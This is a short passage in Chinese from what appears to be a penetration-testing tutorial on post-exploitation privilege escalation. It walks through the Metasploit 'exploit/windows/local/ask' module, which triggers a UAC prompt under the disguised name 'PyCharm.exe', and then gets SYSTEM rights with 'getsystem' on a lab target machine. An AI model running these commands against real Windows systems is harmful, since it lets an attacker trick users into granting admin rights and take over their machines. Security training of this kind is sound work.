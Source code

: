 ## 0x02权限提升

> meterpreter中，getuid指令可查看当前权限

### 提高程序运行级别

> 用户帐户控制（User Account Control，简写作*UAC*)
>
> 通过UAC，让用户手动授权

1. 启动Exploit/windows/local/ask模块

2. 配置session和filename，并运行模块

3. 在靶机界面中手动确认

4. 使用getsystem指令提权

   ```
   // 将meterpreter终端隐藏在后台
   # meterpreter > background
   // 启动Exploit/windows/local/ask模块
   # msf6 > use exploit/windows/local/ask
   // 配置session和filename，并运行模块
   # msf6 exploit(windows/local/ask) > set session 1
   # msf6 exploit(windows/local/ask) > set filename PyCharm.exe
   # msf6 exploit(windows/local/ask) > exploit
   // 最后使用getsystem提权
   # meterpreter > getsystem
   ```

   ![提高程序运行级别_1](./后渗透/提高程序运行级别_1.png)

   ![提高程序运行级别_2](./后渗透/提高程序运行级别_2.png)
